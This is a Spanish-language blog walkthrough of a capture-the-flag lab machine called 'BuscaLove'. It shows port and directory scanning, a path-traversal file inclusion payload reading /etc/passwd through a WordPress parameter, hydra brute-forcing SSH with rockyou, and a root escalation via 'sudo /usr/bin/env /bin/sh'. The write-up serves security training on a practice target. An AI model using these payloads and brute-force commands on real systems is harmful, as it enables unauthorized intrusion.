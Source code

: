 ```yaml
---
layout: post
title: "BuscaLove"
date: 2024-12-3
categories: [pentesting]
image: /assets/images/imagen.jpg
---
```

iniciamos la maquina 

![[Pasted image 20241121181626.png]](/imagenes/Pasted%20image%2020241121181626.png)

analizamos los puertos con nmap  `nmap -p- --open -sCVS -vvv -Pn -n --min-rate 5000 172.18.0.2`

![[Pasted image 20241121181701.png]](/imagenes/Pasted%20image%2020241121181701.png)

buscamos directorios con gobuster `gobuster dir -u "172.18.0.2" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![[Pasted image 20241121181919.png]](/imagenes/Pasted%20image%2020241121181919.png)

entramos al link http://172.18.0.2/wordpress/ y vemos el codigo fuente 

![[Pasted image 20241121182104.png]](/imagenes/Pasted%20image%2020241121182104.png)

se verifica que se ueda usar LfI http://172.18.0.2/wordpress/index.php?love=../../../../../../../../../../etc/passwd

![[Pasted image 20241121182234.png]](/imagenes/Pasted%20image%2020241121182234.png)

encontramos dos usuarios pedro y rosa usamos hydra en cada uno para encontrar alguna contrasena la elegida es rosa
`hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -s 22`

![[Pasted image 20241121182352.png]](/imagenes/Pasted%20image%2020241121182352.png)

encontramos una contrasena para rosa y entramos mediante ssh 

![[Pasted image 20241121182446.png]](/imagenes/Pasted%20image%2020241121182446.png)

listamos los directorios

![[Pasted image 20241121182516.png]](/imagenes/Pasted%20image%2020241121182516.png)

listamos los directorios de root y encontramos un archivo secret.txt lo leemos y encontramos una cadena de carateres que analizamos usando chatgpt 

![[Pasted image 20241121182629.png]](/imagenes/Pasted%20image%2020241121182629.png)

con chatgpt descubrimos que esta en hex y posiblemente ascii o base 32 buscamos un decodificador online 

![[Pasted image 20241121182839.png]](/imagenes/Pasted%20image%2020241121182839.png)

 y tenemos una contrasena noacertarasosi
 probamos con el usurio pedro 

![[Pasted image 20241121182940.png]](/imagenes/Pasted%20image%2020241121182940.png)

listamos los directorios y vemos que tenemos acceso a la dirrecion /usr/bin/env  con gtfobins encontramos como escalar privilegios

![[Pasted image 20241121183102.png]](/imagenes/Pasted%20image%2020241121183102.png)

usamos el comando `sudo /usr/bin/env /bin/sh` y listo somos root


![[Pasted image 20241121183208.png]](/imagenes/Pasted%20image%2020241121183208.png)


